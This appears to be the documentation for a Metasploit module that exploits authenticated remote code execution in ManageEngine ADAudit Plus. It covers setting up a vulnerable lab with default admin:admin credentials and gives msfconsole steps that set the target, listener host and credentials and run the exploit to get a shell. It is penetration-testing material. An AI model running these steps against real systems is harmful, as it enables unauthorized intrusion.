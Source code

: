 ## Installation Information
Vulnerable versions of ADAudit Plus are available [here](https://archives2.manageengine.com/active-directory-audit/).
Versions 7005 and prior are vulnerable by default, so no special configuration is required after installing the application.

After running the installer, you can launch ADAudit Plus by opening a command prompt with administrator privileges
and then running: `<install_dir>\bin\run.bat`. This will typically be at a location like `C:\Program Files\ManageEngine\ADAudit Plus\bin`.
Note that you may be asked to accept a license agreement and then be prompted for a license to use. Choose the Evaluation
license if this is the case. Note that targets running the Free license will not be able to be exploited due to limitations
imposed by the Free license on how often updates are retrieved.

Once this done, log into ADAudit Plus with the default credentials (set as default options for the module), aka `admin`:`admin`.
If the prompt `Default Domain Controllers Policy not configured` appears, click on the Configure link that appears to have
it configure the GPO Policy automatically for you.

Then go to notifications and check for one that says `Product Not Installed As Service` and click on `Install Now`. Once
this is done open `Group Policy Management` on the domain controller and go to Forest->Domains->Select your domain->
Default Domain Policy and right click on it then click `Edit`.

Select Computer Configuration->Policies->Windows Settings->Security Settings->Advanced Audit Policy Configuration->
Audit Policies->Logon/Logoff and set `Audit Logoff`, `Audit Logon`, `Audit Special Logon` and `Audit Other Logon/Logoff Events`
and check the `Configure the following audit events` box as well as the `Success` and `Failure` boxes beneath those.

Finally log out of the web portal. You should be able to run the module now.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `exploit`
8. Verify you get a shell on the target machine as the user running ManageEngine ADAudit Plus.

## Options
### AUTH_DOMAIN
The ADAudit Plus authentication domain to use. The default is `ADAuditPlus Authentication`. If the provided domain
does not match an authentication domain that is configured for the target, the module will throw an error and inform the user.
